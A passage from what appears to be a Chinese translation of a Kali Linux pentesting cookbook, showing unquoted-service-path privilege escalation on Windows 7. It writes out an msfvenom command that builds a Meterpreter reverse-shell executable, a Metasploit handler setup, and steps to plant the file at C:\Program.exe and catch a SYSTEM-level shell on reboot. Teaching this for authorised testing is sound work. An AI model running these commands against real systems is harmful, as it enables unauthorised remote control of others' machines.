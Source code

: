 ```
      use exploit/multi/handler
      set payload windows/meterpreter/reverse_tcp
      set lhost x.x.x.x
      set lport xxx
      exploit

```

输出将如下截屏所示：

![如何操作...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_012.jpg)

1.  现在，让我们将这个文件放在 Windows 系统上。由于我们专注于权限提升，我们将简单地将其托管在 Web 服务器上，并在 Windows 机器上下载它。

1.  一旦文件下载完成，我们找到一种方法将其放在`C`驱动器中，以便路径类似于`C:\Program.exe`。只有在权限设置不正确，或者错误配置的 FTP 设置将路径指向`C`驱动器，或者允许我们将我们的代码粘贴到路径上的任何错误配置时，才有可能实现这一点：![如何操作...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_013.jpg)

1.  现在我们将重新启动 Windows 7 系统，并等待我们的处理程序，看看是否会得到一个反向连接：![如何操作...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_014.jpg)

1.  我们成功地在重新启动时获得了一个反向连接；这是由于未加引号的服务路径漏洞。

1.  让我们检查我们收到连接的用户级别：![如何操作...](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-itrs-exp-cb/img/image_09_015.jpg)

1.  我们已经进入系统。现在我们可以在操作系统上执行任何任务而不受任何限制。

## 它是如何工作的...

如介绍中所讨论的，这是因为 Windows 处理服务二进制路径的执行流程。我们能够利用任何有空格并且没有被引号括起来的服务。

让我们了解`msfvenom`命令：

```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP   Address>   LPORT=<Your Port to Connect On> -f exe > Program.exe

```

在上述命令中，`-p`代表有效载荷，`LHOST`和`LPORT`是有效载荷的要求，`-f`表示生成有效载荷的格式。

要获取更多信息，请输入以下命令：

```
  Msfvenom -h

```

## 还有更多...

更多未加引号的服务路径利用示例可在 exploit-db 上找到。使用以下 Google dork 命令获取更多信息：

```
intitle:unquoted site:exploit-db.com 

```
